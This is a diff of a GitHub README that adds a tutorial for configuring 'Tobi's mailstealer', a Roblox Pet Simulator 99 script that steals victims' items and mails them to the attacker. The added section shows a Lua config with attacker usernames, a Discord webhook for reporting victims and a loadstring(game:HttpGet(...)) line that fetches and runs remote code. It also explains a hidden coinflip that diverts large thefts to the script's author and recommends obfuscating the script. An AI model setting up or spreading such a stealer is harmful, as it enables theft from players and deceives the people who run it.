

Before and after one commit to Enivzoy/Aurora, a Markdown page: README.md, the part around one of its changes. Shown at 91% size. GitHub-like rendering; folded sections open; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
tobis mailstealer tutorial

````diff
--- a/README.md
+++ b/README.md
@@ -82,6 +85,55 @@ Or remove everything related to it (keySystemEnabled, hubName, keyLink, keys !!!
 I think you can figure rest of the stuff out
 now after doing everything you save your script to a file call it mailsetaler.txt and save it somewhere(using notepad or a file editor) then go to step 3(part2)
 Make sure to [DM](https://discord.gg/Eh7EX6dzAF) me if you cant follow something  I'll help you
+
+use https://enivzoy.github.io/Aurora/ to generate your script for better user interface
+
+</details>
+<details>
+  <summary>Tobi Mailstealer</summary>
+
+[Aurora](https://discord.gg/Eh7EX6dzAF) is 99.99% better
+use aurora instead, but since im nice ill do tobis too
+get the script from tobis script channel the currrent one at 5/28/24 is V6.1
+i wont be sharing his discord server upto you to find it or use aurora instead
+it should look something like this
+
+```lua
+Username = "your user here"
+Username2 = "your 2nd user here" -- stuff will get sent to this user if first user's mailbox is full
+Webhook = "your webhook here"
+Support = true -- if you dont want to support me make this "false" (without quotes). 50% chance I get hit if its 10+ huges or 500+ mil rap
+min_rap = 500000 -- minimum rap of each item you want to get sent to you.
+loadstring(game:HttpGet("USE AURORA INSTEAD"))()
+```
+
+don't copy the script from here incase a major rewrite/bugs go join tobis server for a updated one
+Make sure you have a ps99 account which can receive mail, Aka must have reached area 10. It's better to use a alt account (or 2 alt accounts incase you get banned)
+So the `Username` should be your username for like the account to receive the mail
+For example `Username = "GetAuroraMS"`
+Now here's the tricky part
+If you have an alt
+You need to fill in the `Username2` also
+If you happen to have your mains mailbox full it will send to username2
+Now if this value(Username2) is kept empty/removed then it'll be set to my ign(only if the value is empty or removed completely) to avoid errors(no this isn't dualhooking, it's a failsafe)
+~~If I'm nice I might return the items~~
+Now the webhook, You should've gotten the webhook from step 1 So put it to the `Webhook` value
+For example `Webhook = "discord.com/x/x`
+
+Now support, Ssupport means that if you get 10+ huges or 500+ mil rap then it flips a coin(math.random) and if its (>0.5) then it will send the hit to tobi, for your sake its upto you to set this to false
+
+Now minimum rap, Minimum rap means the item has to be the same or above the rap you put into the script
+
+Now let's say you have min rap to about 1m, And you hit a guy with 500k
+You won't get anything because the min rap is 1m
+Now minrap is calculated based on whole numbers(no "m" or "k" if it's 6k then it should be 6000 if it's 1m then it should be 1000000)
+So if your into the high stuff
+Set your min rap to 1-3m
+
+this is it for tobis but aurora is wayy better so join [Aurora](https://discord.gg/Eh7EX6dzAF)
+continue following step 3 : obfuscation & uploading
+
+</details>
 
 # 3: obfuscation & uploading
 Now you gotta obfuscate your bot so people don't spam your webhook
````
Also changed, not shown: other parts of README.md (+3 -0 lines).
